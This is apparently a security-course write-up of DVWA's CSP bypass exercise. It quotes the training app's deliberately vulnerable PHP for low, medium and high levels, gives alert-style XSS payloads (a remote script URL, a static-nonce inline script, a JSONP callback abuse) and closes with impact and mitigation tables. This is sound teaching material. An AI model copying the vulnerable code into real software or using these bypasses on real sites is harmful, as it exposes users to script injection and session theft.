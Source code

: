 # 🔓 DVWA – Content Security Policy (CSP) Bypass Analysis

This writeup provides a professional, structured, and consistent analysis of the **Content Security Policy (CSP) Bypass** vulnerability at all three DVWA security levels: **Low**, **Medium**, and **High**.

---

## 🔢 Input Code

### 🟢 Low Security Level

```php
$headerCSP = "Content-Security-Policy: script-src 'self' https://pastebin.com hastebin.com www.toptal.com example.com code.jquery.com https://ssl.google-analytics.com https://digi.ninja ;";
header($headerCSP);

if (isset ($_POST['include'])) {
$page[ 'body' ] .= "<script src='" . $_POST['include'] . "'></script>";
}
```

### 🟡 Medium Security Level

```php
$headerCSP = "Content-Security-Policy: script-src 'self' 'unsafe-inline' 'nonce-TmV2ZXIgZ29pbmcgdG8gZ2l2ZSB5b3UgdXA=';";
header($headerCSP);
header ("X-XSS-Protection: 0");

if (isset ($_POST['include'])) {
$page[ 'body' ] .= $_POST['include'];
}
```

### 🔴 High Security Level

```php
$headerCSP = "Content-Security-Policy: script-src 'self';";
header($headerCSP);

if (isset ($_POST['include'])) {
$page[ 'body' ] .= $_POST['include'];
}
```

---

## 📌 Overview

CSP is designed to prevent XSS by controlling which scripts can be loaded or executed. In DVWA's **CSP Bypass exercise**, the goal is to execute JavaScript despite increasingly restrictive CSP rules.

At each level:
- **Low** allows remote script inclusion from several sources.
- **Medium** requires using a specific nonce to inject inline scripts.
- **High** only allows self-hosted scripts, requiring abuse of JSONP or logic flaws in `high.js`.

---

## 🔍 Vulnerabilities Identified

```text
🔒 Vulnerability                         | ❌ Problem Description
----------------------------------------|-------------------------------------------------------------
External Script Injection (Low)         | User input directly included as a script source without validation.
Inline Script Injection (Medium)        | CSP allows 'unsafe-inline' and static nonce, making bypass trivial.
DOM-based XSS via JSONP (High)          | Hardcoded self-only CSP but external JSONP endpoint is abusable.
Missing Input Validation (All)          | No sanitization or content-type checks on `include` parameter.
```

---

## 2️⃣ Exploitation Phase: Manual or Automated

### 🔨 Tool: Browser or Burp Suite

### 🔧 Setup:
- Access DVWA on all three security levels.
- Identify CSP header and behavior.
- Prepare script payload or URL based on allowed sources.

### 🔁 Payloads:

#### 🔹 Low Level
```html
https://digi.ninja/dvwa/alert.js
```

#### 🔸 Medium Level
```html
<script nonce="TmV2ZXIgZ29pbmcgdG8gZ2l2ZSB5b3UgdXA=">alert(1)</script>
```

#### 🔴 High Level
Use the vulnerable `jsonp.php` and `high.js`:
```js
<script src="source/jsonp.php?callback=alert"></script>
```

### 🎯 Success Indicators:
- Alert box appears.
- CSP header does not block script.
- Script runs in the browser console.

---

## 4️⃣ Risk & Real-World Impact

```text
🧠 Exploit Impact                  | 🎯 Description
----------------------------------|-------------------------------------------------------------
Session Hijacking                 | Malicious script could read cookies or tokens.
Data Exfiltration via Scripts     | Attacker-controlled domains can steal sensitive data.
Security Policy Misconfiguration | Developers might believe CSP is fully protective when it’s bypassed.
Credential Theft / Phishing      | DOM-based or stored XSS payloads lead to account takeover.
```

---

## 5️⃣ 🚧 Mitigation Measures (Secure Coding)

```text
🚫 Vulnerability                          | ✅ Mitigation
-----------------------------------------|-------------------------------------------------------------
Remote script inclusion (Low)            | Avoid dynamic script insertion. Use static URLs.
Nonce reuse (Medium)                     | Generate fresh nonce per request. Avoid static or hardcoded values.
Improper JSONP use (High)                | Remove or sanitize JSONP support. Use CORS + strict MIME checks.
Lack of input validation                 | Sanitize `include` using allowlist and enforce correct content types.
CSP misconfiguration                     | Apply strict CSP: no `unsafe-inline`, no open domains, use hashes.
```

---

✅ This writeup is part of the **Software and Web Application Security Crash Course** – providing practical, real-world insights into web exploitation and defense.